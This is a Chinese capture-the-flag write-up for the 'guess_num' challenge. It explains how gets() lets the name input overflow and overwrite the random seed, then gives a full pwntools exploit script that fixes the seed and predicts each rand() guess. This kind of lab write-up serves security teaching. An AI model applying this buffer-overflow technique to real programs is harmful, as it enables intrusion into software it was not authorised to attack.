

# 攻防世界: guess_num

## **[目标]**
重写seed

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**




显然，这是一个简单的溢出题。只要将seed[0]值固定，rand()产生的数列就是可以预测的。又因为gets函数不限制输入的长度，所以我们可以在输入 name 的时候把seed[0]覆盖掉。

完整exp如下：

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
p = process("./guess_num")
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")

pay = "A"*0x20 + p64(1)
p.sendlineafter("name:",pay)

libc.srand(1)

for i in range(10):
    p.sendlineafter("number:",str(libc.rand()%6 + 1))

print p.recv()
print p.recv()
```

## **[参考阅读]**

关于 rand 和 srand 函数(`https://blog.csdn.net/lianghui0811/article/details/76480664`)

关于ctypes(`https://blog.csdn.net/lianghui0811/article/details/76480664`)